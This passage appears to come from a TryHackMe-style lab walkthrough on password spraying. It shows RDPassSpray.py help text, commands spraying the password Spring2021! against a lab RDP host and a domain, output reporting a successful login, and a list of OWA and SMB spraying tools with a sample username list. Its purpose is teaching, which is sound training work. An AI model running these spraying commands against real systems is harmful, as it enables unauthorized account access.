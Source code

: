 ```shell-session
  -t TARGET, --target TARGET
                        Target machine to authenticate against
  -s SLEEP, --sleep SLEEP
                        Throttle the attempts to one attempt every # seconds, can be randomized by passing the value 'random' - default is 0
  -r minimum_sleep maximum_sleep, --random minimum_sleep maximum_sleep
                        Randomize the time between each authentication attempt. Please provide minimun and maximum values in seconds
  -d DOMAIN, --domain DOMAIN
                        Domain name to use
  -n NAMES, --names NAMES
                        Hostnames list to use as the source hostnames, one per line
  -o OUTPUT, --output OUTPUT
                        Output each attempt result to a csv file
  -V, --verbose         Turn on verbosity to show failed attempts
```

Now, let's try using the (-u) option to specify the victim as a username and the (-p) option set the Spring2021!. The (-t) option is to select a single host to attack.

Hashcat

```shell-session
user@THM:~# python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026
[13-02-2021 16:47] - Total number of users to test: 1
[13-02-2021 16:47] - Total number of password to test: 1
[13-02-2021 16:47] - Total number of attempts: 1
[13-02-2021 16:47] - [*] Started running at: 13-02-2021 16:47:40
[13-02-2021 16:47] - [+] Cred successful (maybe even Admin access!): victim :: Spring2021!
```

The above output shows that we successfully found valid credentials victim:Spring2021!. Note that we can specify a domain name using the -d option if we are in an Active Directory environment.

Hashcat

```shell-session
user@THM:~# python3 RDPassSpray.py -U usernames-list.txt -p Spring2021! -d THM-labs -T RDP_servers.txt
```

There are various tools that perform a spraying password attack against different services, such as:

#### Outlook web access (OWA) portal

Tools:

* [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit) (atomizer.py)
* [MailSniper](https://github.com/dafthack/MailSniper)

#### SMB

* Tool: Metasploit (auxiliary/scanner/smb/smb\_login)

Use the following username list:

```shell-session
user@THM:~# cat usernames-list.txt 
admin
phillips
burgess
pittman
guess
```
